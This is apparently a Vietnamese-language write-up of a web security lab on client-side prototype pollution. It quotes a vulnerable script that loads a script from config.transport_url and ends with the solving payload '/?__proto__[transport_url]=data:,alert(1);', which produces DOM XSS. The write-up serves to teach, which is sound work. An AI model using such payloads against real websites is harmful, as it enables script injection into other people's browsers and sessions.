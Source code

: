 ![image](https://hackmd.io/_uploads/HyfsKdE4Jx.png)

- thấy trigger được prototype
- tương tự bài trước chúng ta đi tìm DOM XSS để trỉgger

![image](https://hackmd.io/_uploads/SkTg5d4Ekl.png)

```javascript
async function logQuery(url, params) {
  try {
    await fetch(url, {
      method: "post",
      keepalive: true,
      body: JSON.stringify(params),
    });
  } catch (e) {
    console.error("Failed storing query");
  }
}

async function searchLogger() {
  let config = { params: deparam(new URL(location).searchParams.toString()) };

  if (config.transport_url) {
    let script = document.createElement("script");
    script.src = config.transport_url;
    document.body.appendChild(script);
  }

  if (config.params && config.params.search) {
    await logQuery("/logger", config.params);
  }
}

window.addEventListener("load", searchLogger);
```

- nếu `config.transport_url` được set giá trị thì chúng ta sẽ trigger được

- Lưu ý rằng không có transport_url thuộc tính nào được xác định cho configđối tượng. Đây là một tiện ích tiềm năng để kiểm soát src.

```javascript
/?__proto__[transport_url]=foo
```

- Quan sát thấy một `<script>` phần tử đã được hiển thị trên trang, với srcthuộc tính foo

![image](https://hackmd.io/_uploads/Syvmi_44yx.png)

- mình dùng payload sau và solve được lab

```javascript
/?__proto__[transport_url]=data:,alert(1);
```
